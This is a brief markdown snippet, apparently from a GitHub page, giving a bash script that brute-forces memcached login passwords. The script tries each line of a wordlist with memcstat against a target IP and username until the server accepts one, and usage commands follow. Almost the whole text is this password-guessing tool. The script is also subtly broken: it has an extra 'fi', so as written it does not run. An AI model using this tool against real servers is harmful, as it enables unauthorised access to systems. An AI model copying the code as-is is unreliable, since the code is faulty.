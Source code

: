 # Memcached

```bash
#!/bin/bash
while read line
do
	echo "Trying $line";
	        if memcstat --servers=$1 --username=$2 --password=$line | grep -q Server
	        then
		        echo "Password Found: "$line
		        break
		    fi
fi
done < $3
```

The script's syntax as it follows.

```
$ chmod +x brute.sh

$ ./brute.sh <IP> <username> passwords.lst
```